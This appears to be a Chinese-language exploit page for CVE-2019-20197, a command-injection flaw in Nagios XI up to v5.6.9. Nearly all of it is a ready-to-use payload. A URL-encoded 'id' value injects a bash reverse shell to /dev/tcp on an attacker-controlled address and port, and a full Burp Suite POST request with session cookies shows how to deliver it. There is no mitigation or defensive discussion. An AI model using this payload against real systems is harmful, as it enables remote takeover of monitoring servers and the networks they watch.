


# CVE-2019-20197 Nagios XI远程命令执行漏洞 <= v5.6.9




## Payload



`http://10.10.20.100:81/nagiosxi//includes/components/scheduledreporting/schedulereport.php`

`id=a%22%3B%2fbin%2fbash%20-l%20%3E%20%2fdev%2ftcp%2f10.10.20.166%2f8989%200%3C%261%202%3E%261%0A%3B`

#### Burpsuite
```
POST /nagiosxi//includes/components/scheduledreporting/schedulereport.php HTTP/1.1
Host: 10.10.20.100:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 731
Referer: http://10.10.20.100:81/nagiosxi//includes/components/scheduledreporting/schedulereport.php?type=page&url=includes%2Fcomponents%2Fxicore%2Fstatus.php%3Fshow%3Dhosts%26search%3D%25E8%25AE%25A1%25E5%2588%2592%25E6%258A%25A5%25E5%2591%258A%26noservices%3D1&wurl=http%3A%2F%2F10.10.20.100%3A81%2Fnagiosxi%2Fincludes%2Fcomponents%2Fxicore%2Fstatus.php%3Fshow%3Dhosts%26search%3D%25E8%25AE%25A1%25E5%2588%2592%25E6%258A%25A5%25E5%2591%258A%26noservices%3D1&xi_basedir=1
Cookie: OWL4_2132_saltkey=ZsoOFQwZ; OWL4_2132_lastvisit=1575971298; OWL4_2132_ulastactivity=0f4bZT1HRjTkv%2BzdnYvGCVRCg0HUfUb1B7QsJ8yP2YhFGEJRUXWa; oagW_2132_saltkey=g9gGGPCh; oagW_2132_lastvisit=1575973708; oagW_2132_ulastactivity=d21c7V784KPjB2hnpPfrAeXH7zr0X1vWeckZ0QN%2FlNip99vbdpEh; kWEM_2132_saltkey=C9zVFO9y; kWEM_2132_lastvisit=1575974313; kWEM_2132_ulastactivity=6e45BCIu3R4gdQ9yAwkz0cBgBzBNr%2BKqOjYGE3H5IciA2b1eywL5; rememberMe=rUIEMiN4FJm/0YUWUIU36kkOtn3eimA8OMaAu10OYh6kz6Rli8kYoy1KbW2+bbLRPu+KmYU24Ho5qQACrL7ZeEqntfw2ZoVJLupkEQSijnW2t/dQrLXi818e6M75R9kG5O35BmjjIBQnm6dqbXs4mKT6uXrwQAHnJwxhQ6ceXqgpC+w8voMcgr0Loe5xfgUXAEN2hMZ8VtPtU3DdUhderHaVkEQPLa8UJUNj0BNO+Lbo8JPZ8/TJ/fa7z8WP3Pljl4X2FQEYLK+gpc8cbcfClD8T+sOEprhChBVTfYdh3HcA4VzD2z6Js3E3PC/kjzJYWYVO7NcabR7YmK1eP0gdYlagup00nxKtX16CvWT7IMLc/U1IVYBdknVA9sS/VltHR9+E+Z1db3i9TENE29p4Yjp3z7mYwFVUPs+q8cVn7nbIR0RX6lNntMI3mhhc2wBC3nSrEbrKnmUfbEbCOcVMlo9U2TvGMu2pXxybt8YI2w9rE1eC2CxCajN69ddp2+Ol; nagiosxi=02v52nubcq54b9l2kmu7irhp67
X-Forwarded-For: 114.114.114.114
Connection: keep-alive
Upgrade-Insecure-Requests: 1

nsp=06696ae90a4c1410f5b59cd1bf07d05ccfca286d8e15ce545fc637bd78349d4f&update=1&id=a%22%3B%2fbin%2fbash%20-l%20%3E%20%2fdev%2ftcp%2f10.10.20.166%2f8989%200%3C%261%202%3E%261%0A%3B&type=page&url=includes%2Fcomponents%2Fxicore%2Fstatus.php%3Fshow%3Dhosts%26search%3D%25E8%25AE%25A1%25E5%2588%2592%25E6%258A%25A5%25E5%2591%258A%26noservices%3D1&wurl=http%3A%2F%2F10.10.20.100%3A81%2Fnagiosxi%2Fincludes%2Fcomponents%2Fxicore%2Fstatus.php%3Fshow%3Dhosts%26search%3D%25E8%25AE%25A1%25E5%2588%2592%25E6%258A%25A5%25E5%2591%258A%26noservices%3D1&userid=0&length=0&sendonce=0&name=test&frequency=Daily&hour=09&minute=00&ampm=AM&dayofweek=1&dayofmonth=1&attachments%5Bpdf%5D=on&recipients=root%40localhost&subject=test&body=test&updateButton=
```

## 参考链接

https://code610.blogspot.com/2019/12/postauth-rce-in-latest-nagiosxi.html
